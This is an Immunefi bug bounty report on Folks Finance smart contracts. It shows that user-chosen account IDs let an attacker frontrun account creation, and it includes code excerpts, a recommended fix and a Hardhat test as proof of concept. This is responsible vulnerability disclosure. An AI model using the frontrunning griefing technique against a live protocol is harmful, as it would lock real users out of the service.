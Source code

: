 
# Account creation can be frontrun, making the users unable to create an account

Submitted on Wed Jul 24 2024 14:15:37 GMT-0400 (Atlantic Standard Time) by @Kalogerone for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33609

Report type: Smart Contract

Report severity: Medium

Target: https://testnet.snowtrace.io/address/0x3324B5BF2b5C85999C6DAf2f77b5a29aB74197cc

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

A user who tries to create an account for the protocol has to choose his `accountId`. Any user can frontrun this transaction with the same `accountId`, making the initial user's transaction to revert because his selected `accountId` is taken.

## Vulnerability Details

Each account has a unique `bytes32` identifier named `accountId`. During the account creation, each user is asked to provide the `accountId` that his account will have.

```javascript
SpokeCommon.sol

    function createAccount(
        Messages.MessageParams memory params,
@>      bytes32 accountId,
        bytes32 refAccountId
    ) external payable nonReentrant {
        _doOperation(params, Messages.Action.CreateAccount, accountId, abi.encodePacked(refAccountId));
    }
```

This arbitrary `accountId` value is sent through a bridge to the `Hub.sol` contract which in turn calls the `createAccount` function is `AccountManager.sol`.

```javascript
Hub.sol

    function _receiveMessage(Messages.MessageReceived memory message) internal override {
        Messages.MessagePayload memory payload = Messages.decodeActionPayload(message.payload);
        .
        .
        .
        if (payload.action == Messages.Action.CreateAccount) {
            bytes32 refAccountId = payload.data.toBytes32(index);

@>          accountManager.createAccount(payload.accountId, message.sourceChainId, payload.userAddress, refAccountId);
        } else if
        .
        .
        .
    }
```

```javascript
AccountManager.sol

    function createAccount(
        bytes32 accountId,
        uint16 chainId,
        bytes32 addr,
        bytes32 refAccountId
    ) external override onlyRole(HUB_ROLE) {
        // check account is not already created (empty is reserved for admin)
@>      if (isAccountCreated(accountId) || accountId == bytes32(0)) revert AccountAlreadyCreated(accountId);
        .
        .
        .
    }
```

At this point, if there is already an account with the desired `accountId`, the transaction reverts. An attacker can take advantage of this and frontrun all the account creation transactions (on the chains with a public mempool, like the `Ethereum mainnet`) and prevent all the users from creating an account, which is essential for someone to use the protocol.

## Impact Details

This is a griefing attack which prevents any new users from using the protocol, since they can't create an account. Every transaction will fail because the attacker can frontrun it with the same `accountId`.

## References

https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/main/contracts/spoke/SpokeCommon.sol#L27

https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/main/contracts/hub/Hub.sol#L163

https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/main/contracts/hub/AccountManager.sol#L42

## Recommendation

Don't allow for the users to select their desired `accountId`. Use a counter internally and increment it with every account creation and use it as the `accountId`.


        
## Proof of concept
## Proof of Concept

Let's follow this scenario:

1. Bob tries to create an account with `accountId = "BOB_ACCOUNT_ID"`
2. Alice (the attacker) sees this transaction in the mempool and frontruns bob transaction with `accountId = "BOB_ACCOUNT_ID"`
3. Alice's transaction goes through
4. Bob's transaction gets reverted
5. Repeat

Add the following test in the `test/AccountManager.test.ts` file under the `describe("Create Account", () => {` tab.

```javascript
    it("Should frontrun account creation", async () => {

      const { admin, hub, unusedUsers, accountManager } = await loadFixture(deployAccountManagerFixture);
      const bob = unusedUsers[0];
      const alice = unusedUsers[1];
      const bobAddr = convertEVMAddressToGenericAddress(bob.address);
      const aliceAddr = convertEVMAddressToGenericAddress(alice.address);
      const accountId: string = getAccountIdBytes("BOB_ACCOUNT_ID");
      const spokeChainId = 0;
      const refAccountId: string = getEmptyBytes(BYTES32_LENGTH);
      console.log(accountId);

      const createAccountFrontrun = await accountManager
        .connect(hub)
        .createAccount(accountId, spokeChainId, aliceAddr, refAccountId);

      const createAccount = accountManager
        .connect(hub)
        .createAccount(accountId, spokeChainId, bobAddr, refAccountId);

      await expect(createAccount)
        .to.be.revertedWithCustomError(accountManager, "AccountAlreadyCreated")
        .withArgs(accountId);
    });
```